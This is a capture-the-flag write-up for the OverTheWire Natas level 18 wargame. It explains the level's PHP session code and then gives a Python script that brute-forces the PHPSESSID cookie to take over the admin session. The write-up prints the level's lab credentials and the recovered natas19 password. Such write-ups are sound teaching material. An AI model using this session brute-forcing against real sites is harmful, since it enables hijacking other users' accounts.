

> Taking a look at the source code: 


1. The first function `isValidAdminLogin()` does nothing as its content is commented out.
2. `isValidId()` function checks if the `id` parameter is a number.
3. `createId()` function generates a random `id` between 1 and 640 defined above.
4. `debug()` function prints to the screen the message passed as a parameter.
5. `my_session_start()` function checks if the cookie `PHPSESSID` exists, and it is valid by calling the `isValidId()` function to check if it is a number. Then a session is started, if it starts successfuly, it checks if the `admin` variable is present in the session storage. If it does't exist, then it sets `admin` to 0 in the session storage, else it returns true.


6. `print_credentials()` function checks if there is a session, and if the `admin` variable exists in the session storage and if its value is 1. If that is the case, it prints out the password for the next level.
7. The remaining portion is the code that is executed. If `my_session_start()` returns true, then the credentials will be printed. Otherwise, it executes the login functionality normally and the admin password isn't printed.

> To bypass this authentication technique, we can try bruteforcing the `PHPSESSID` cookie for all the valid numbers.
> We can do that using this python script:

```python
import requests
import re
from string import *

auth_username = "natas18"
auth_password = "8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq"
url = "http://natas18.natas.labs.overthewire.org/"

session = requests.Session()

for i in range(1, 640):
    print("Trying with session id: " + str(i))
    response = session.get(url, auth=(auth_username, auth_password), cookies={"PHPSESSID": str(i)})
    content = response.text
    if "You are an admin" in content:
        print("Found admin session id: " + str(i))
        print(content)
        break
```

> This simply sets the cookie `PHPSESSID` to be all valid values from 1 to 640 to check which one is the admin id.
> The admin id once set opens the admin session, adding the `admin` variable to the session storage.

> If we try to add the `admin` variable to the session storage by ourselves and letting it be `1`, we get the debug message `"Session was old: admin flag set"`.
> This doesn't work as we need the session itself to set the `admin` variable in the local storage.
> Therefore, getting the right `PHPSESSID` for the admin opens the required session, and sets the required session variable `admin` to call the `print_credentials()` function.

> The script breaks once the correct id is found:



> We get the credentials:

```
natas19:8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s
```

---
